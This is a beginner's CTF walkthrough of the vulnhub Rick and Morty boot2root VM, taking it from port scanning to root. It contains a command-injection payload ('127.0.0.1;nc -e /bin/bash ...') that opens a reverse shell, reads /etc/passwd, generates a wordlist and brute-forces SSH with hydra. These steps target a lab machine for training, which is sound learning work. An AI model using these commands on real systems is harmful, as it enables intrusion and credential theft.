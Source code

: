 ```yaml
---
title: 'Pentest: owning rick and morty VM'
categories:
  - Penetration-Testing
tags:
  - Pentest
  - ctf
  - exploits
---
```


My collegues told me about vulnhub, a website for peneteration tester to test their skills on boot2root VM's. On the site you'll find multiple boxes, with various difficulty levels. Since I just started out, I tried to find an easy VM to test out my skills. Quickly, I found the rick and morty VM, being a huge fan of the show, I wanted to have a look at it. [You can find the VM here:](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/) A lot of vulnhub machines work with a capture the flag system, which means there are several files aka "flags" hidden in the machine, your goal is to collect them all. According to the discription this VM has 130 points worth of flags, our objective is to collect all points, and eventually get root access along the way...

**disclaimer: I'm a beginning peneteration tester so there are probably more efficient ways of owning this VM.**

# How I tackled this VM.

The first thing I did was do an nmap scan of the VM to find all open ports and hopefully some services.

`nmap 10.0.2.12 -p- -sV`

this gave us the following open ports and services:

```
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh?
80/tcp open http Apache httpd 2.4.27 ((Fedora))
9090/tcp open http Cockpit web service
13337/tcp open unknown
22222/tcp open ssh OpenSSH 7.5 (protocol 2.0)
60000/tcp open unknown
```

#### Finding the first flag...

A good amount of open ports were found, now is the time to check them out:

 I started with the open ports I've never seen before which were 13337 & 60000:

  `nc 10.0.2.12 1337` We found our first flag worth 10 points! only 120 points more to go...

#### Second Flag

After finding that flag I switched to port 60000:

`nc 10.0.2.12 60000`

This gave me some sort of shell, but with very little commands that could be used I used `ls` and saw a FLAG.txt file `cat` revealed the content, it's worth 10 points! 110 more to go

#### Third Flag

After this I checked port 9090, being a http protocol, I used my webbrowser: another flag found! 10 points, 30 down, 100 to go...

#### Fourth Flag

Time to check the FTP connection `ftp 10.0.2.12` I tried the anonymous user and empty password in case it was using anonymous FTP, turns out that was a good call because I got in! there was a flag file present, again worth 10 points, so we already have 40 points and didn't even take a look at the web application yet..

#### Fifth FLAG

I accessed the website in my browser, being greeted by morty but other than that nothing special,... Time to use `dirb` to crawl the webpage and show any hidden folders: `dirb http://10.0.2.12`

This showed me there was a `/cgi-bin/` folder present I browsed it and saw two tools there /cgi-bin/root_shell.cgi and tracertool.cgi

Really? root_shell.cgi? after checking it out, it turned out to be trolling me. Let's take a look at the tracertool instead...

This turned out to be a legit tool, filling in an ip did indeed do a tracert, this gave me an indication that OS commands where being used in this application, so I tried to just do `ls` instead of filling in an ip, this did not work, which is obvious because it's running a tracert, tracert ls won't work.. So I tried the following: `127.0.0.1;ls` This worked! I got the contents of the current directory, I tried to exploit this further by checking if a tool called `netcad` was installed: `127.0.0.1;nc -h` turns out that it was indeed installed.

Time to try and setup a shell to my kali machine, so I started a listener on my normal machine

`nc -lvp <port to listen to>`

and on the webtool I issued: `127.0.0.1;nc -e /bin/bash 10.0.2.10 <port>`

Try and play with the ports to see if one works, I used port 4444

et voila! We have a shell into the webserver ;)

time to poke around a bit: going into the html folder and doing an `ls -lah` showed me a passwords folder! going to 10.0.2.12/passwords/ in the webbrowser revealed a flag, giving us another 10 points! We now have a total of 50 points There is a passwords.html page, this doesn't show much, but there is a comment from Rick saying he hid something but did not delete it, so I checked the source code and indeed, there was a password there called winter

Now we have a password, but we don't know any users yet... lets try and `cat /etc/passwd` to see all users on this machine And we get trolled, the `cat` command got replaced to show us an ASCII cat.. awesome... `vi /etc/passwd` works.

We see users called Summer,RickSanchez and Morty

Winter is the last name of Summer in the show, so let's try SSH `ssh Summer@10.0.2.12 -p 22222` password Winter and voila, we are logged in with SSH onto the machine, we don't need our shell we established with the web vulnerability anymore, and another flag is waiting in Summers homedir, sweet! 10 points, 60 in total, going strong!

#### Sixth Flag

I also found out using `ls -lah` that Summer has read access to the other users directories, so naturally it's time to take a peek: Morty had some cool files in his directory, because the box we are in has limited tools, i copyed them over to my own machine using `scp -P 22222 Summer@10.0.2.12:/home/Morty/Safe_Password.jpg .` it's an image file and images have exif data, there is a password there! the password is Meeseek, I doubt that Rick or even Morty use Meeseek as password, there was also a file called journal.txt.zip I copied this over with `scp` using the same method as described above.

trying to unzip this file prompts me for a password, I typed in Meeseek and I got in reading the journal gave us the flag 131333 worth 20 points, bringing our total to 80 already.

#### Yet Another FLAG

In the journal morty talked about rick brabelling about a safe, and when checking Rick's direcotry there is indeed a safe, we copy it to our machine and execute it with the password 131333 and we get a message from Rick:

```
(This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order
1 uppercase character
1 digit
One of the words in my old bands name.
```

And we also got a flag worth another 20 points, bringing our points to 100, we are now close to the end! If you don't watch Rick and Morty you can google what Rick's band name was, spoiler: it's called The Flesh Curtains It's time to create a wordlist with the above specifics, you can tackle this by making your own script which could look like this:

#### To Root or not to root, that is the question.

```
from string import ascii_uppercase
for c in ascii_uppercase:
    for x in range(0, 10):
        print str(c) + str(x) + "Flesh"
        print str(c) + str(x) + "Curtains"
```

or you could just use crunch and be lazy :)

```
crunch 10 10 -t ,%Curtains -o ./wordlist.curtains
crunch 7 7 -t ,%Flesh -o ./wordlist.flesh
cat wordlist.curtains > wordlist
cat wordlist.flesh >> wordlist
```

Time to use Hydra and do a brute force attack!

`hydra -l RickSanchez -P wordlist ssh://192.168.56.102 -s 22222`

running this will give you the password (I'm not spoiling this one, do it yourself!)

Rick can escalate to root, and in root is the last flag! :)
